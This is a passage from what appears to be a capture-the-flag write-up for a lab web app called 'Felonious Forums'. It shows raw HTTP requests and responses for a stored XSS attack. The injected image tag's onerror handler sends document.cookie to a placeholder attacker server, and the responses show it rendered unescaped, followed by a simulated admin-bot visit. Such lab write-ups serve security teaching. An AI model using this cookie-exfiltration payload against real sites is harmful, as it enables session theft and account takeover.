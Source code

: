 ```http
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MTEsInVzZXJuYW1lIjoibXl1c2VyIiwicmVwdXRhdGlvbiI6MCwiY3JlZGl0cyI6MTAwLCJ1c2VyX3JvbGUiOiJOZXdiaWUiLCJhdmF0YXIiOiJuZXdiaWUud2VicCIsImpvaW5lZCI6IjIwMjItMDctMTkgMjA6MTI6MzUiLCJpYXQiOjE2NTgyNjk1Mzd9.VavmLYqwPLmxWSx7L13cGLZRCUTKrtwE6zzEdwNotms
Upgrade-Insecure-Requests: 1

title=&content=xss_here![](http://<my_server_ip>/img"onerror="window.location='http://<my_server_ip>/'%2bdocument.cookie)&cat_id=2
```
### Response 1 (Inject XSS)
```http
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 7241
ETag: W/"1c49-wZFYIEebTM5A+qV6pLY4g62Kr6s"
Date: Tue, 19 Jul 2022 22:47:59 GMT
Connection: close

<!DOCTYPE html>
<html lang="en">
   <head>
      <meta charset="UTF-8" />
      <title>Felonious Forums | Preview Thread
...snip...
<div id="_pcon">
    <p>xss_here<img src="http://<my_server_ip>/img"onerror="window.location='http://<my_server_ip>/'+document.cookie" alt="" /></p>
</div>
..snip...
```

Now we can simulate a GET request like the one the bot would make:

### Request 2 (Simulate Bot request. Optional)
```http
GET /threads/preview?123 HTTP/1.1
Host: 127.0.0.1:1337
X-Forwarded-For: 127.0.0.1
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MTEsInVzZXJuYW1lIjoibXl1c2VyIiwicmVwdXRhdGlvbiI6MCwiY3JlZGl0cyI6MTAwLCJ1c2VyX3JvbGUiOiJOZXdiaWUiLCJhdmF0YXIiOiJuZXdiaWUud2VicCIsImpvaW5lZCI6IjIwMjItMDctMTkgMjA6MTI6MzUiLCJpYXQiOjE2NTgyNjk1Mzd9.VavmLYqwPLmxWSx7L13cGLZRCUTKrtwE6zzEdwNotms
```

### Response 2 (Simulate Bot request. Optional)
```http
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 7241
ETag: W/"1c49-wZFYIEebTM5A+qV6pLY4g62Kr6s"
Date: Tue, 19 Jul 2022 22:48:04 GMT
Connection: keep-alive
Keep-Alive: timeout=5

<!DOCTYPE html>
<html lang="en">
   <head>
      <meta charset="UTF-8" />
      <title>Felonious Forums | Preview Thread</title>
...snip...
<div id="_pcon">
    <p>xss_here<img src="http://<my_server_ip>/img"onerror="window.location='http://<my_server_ip>/'+document.cookie" alt="" /></p>
```